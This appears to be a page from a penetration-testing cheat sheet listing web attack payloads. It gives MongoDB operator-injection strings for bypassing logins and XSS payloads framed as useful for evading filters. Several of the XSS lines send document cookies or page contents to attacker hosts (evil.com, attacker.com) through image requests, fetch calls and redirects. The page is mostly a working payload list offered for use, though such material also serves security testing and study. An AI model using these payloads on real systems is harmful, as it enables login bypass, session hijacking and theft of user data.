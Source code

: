 #### 📌 **MongoDB (JSON-style DB)**:

- Injection through parameters like:

```json
{ "username": { "$ne": null }, "password": { "$ne": null } }
```

- Bypass login by injecting operators (`$ne`, `$gt`, `$regex`)

#### 📌 **Regex-Based Payload**:

```json
{ "username": {"$regex": ".*"}, "password": {"$regex": ".*"} }
```

#### 📌 **JavaScript Injection (MongoDB eval)**:

```javascript
{ $where: "this.password.length > 0" }
```

---

## 🔷 **3. XSS: Popup Alternatives & Payloads**

### ✅ Beyond `alert()` — **Useful for Evading Filters**:

|Payload|Usage|
|---|---|
|`prompt("XSS")`|Triggers input box|
|`confirm("XSS Confirm?")`|Yes/No dialog|
|`console.log(document.cookie)`|Silent, no popup|
|`new Image().src='http://evil.com?'+document.cookie`|Exfil data|
|`fetch('https://evil.com/xss?'+btoa(document.body.innerHTML))`|DOM theft|
|`document.location='http://attacker.com?c='+document.cookie`|Redirect & exfil|

### ✅ Using HTML Tags:

```html
<svg/onload=confirm(1)>
<iframe src="javascript:alert('XSS')">
<marquee onstart=alert(1)>
<video src onerror=alert('XSS')>
```

### ✅ Event-based Payloads:

```html
<img src=x onerror=fetch('https://evil.com?'+document.cookie)>
<button onclick=confirm("Clicked")>Click</button>
```

---